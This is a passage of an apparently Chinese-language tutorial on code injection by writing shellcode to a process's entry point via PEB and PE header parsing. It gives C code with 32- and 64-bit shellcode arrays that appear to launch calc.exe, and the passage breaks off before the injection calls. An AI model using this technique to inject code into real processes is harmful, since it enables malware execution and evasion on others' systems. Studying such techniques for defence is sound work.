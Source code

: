 #### 找到入口点

利用PEB结构找到里面的`PebBaseAddress`项，定位到内存中的pe文件的头，就是`MZ`的位置。然后通过DOS头里的e_lfanew项的值，定位到NT头就是`PE`的位置，然后找到可选头，直接获得里面的程序入口点+imageBase

#### 写入代码

通过`WriteProcessMemory`直接把shellcode写入上述计算出来的函数的入口点的地址指向的地方。

#### 执行

通过`ResumeThread`函数直接执行，或者利用`CreateRemoteThread`函数来执行

### 实现代码

```c
#include<stdio.h>
#include<Windows.h>
#include<stdlib.h>

// 32bit
unsigned char shellcode[] = "\xcc\xc3\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8"
"\xA0\x12\xed\x76"
"\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8"
"\xF0\xE1\xF0\x76"
"\xFF\xD0\x33\xC0\x50\xB8"
"\x80\x59\xed\x76"
"\xFF\xD0\x90\x90\xC3";
// 64bit
unsigned char shellcode64[] = "\xcc\xc3\x55\x48\x8B\xEC\x90\xC7\x04\x24\x2E\x64\x6C\x6C\xC7\x44\x24\xFC\x65\x6C\x33\x32\xC7\x44\x24\xF8\x6B\x65\x72\x6E\x48\x8B\xCC\x90\x90\x48\xB8"
"\xA0\x8C\xC7\xA7\xFE\x7F\x00\x00"
"\xFF\xD0\xBA\x05\x00\x00\x00\xC7\x04\x24\x65\x78\x65\x2E\xC7\x44\x24\xFC\x63\x6C\x61\x63\xC7\x44\x24\xF8\x00\x00\x00\x00\x48\x8B\xCC\x90\x48\xB8"
"\xD0\x77\x41\xA8\xFE\x7F\x00\x00"
"\x90\x90\x90\xC3";

typedef struct _PROCESS_BASIC_INFORMATION {
    PVOID Reserved1;
    PVOID PebBaseAddress;
    PVOID Reserved2[2];
    ULONG_PTR UniqueProcessId;
    PVOID Reserved3;
} PROCESS_BASIC_INFORMATION;

typedef LONG(NTAPI* NtQueryInformationProcessPtr)(
    HANDLE ProcessHandle,
    DWORD ProcessInformationClass,
    PVOID ProcessInformation,
    ULONG ProcessInformationLength,
    PULONG ReturnLength
    );

int main()
{
    // NtQueryInformationProcess api在ntdll里，属于未公开的函数，所以需要动态调用
    HMODULE hNtdll = LoadLibraryA("ntdll.dll");
    if (hNtdll == NULL)
    {
        printf("无法加载 ntdll.dll 库\n");
        return 1;
    }

    // 设置启动信息和进程信息，保留在结构体里，方便后续操作
```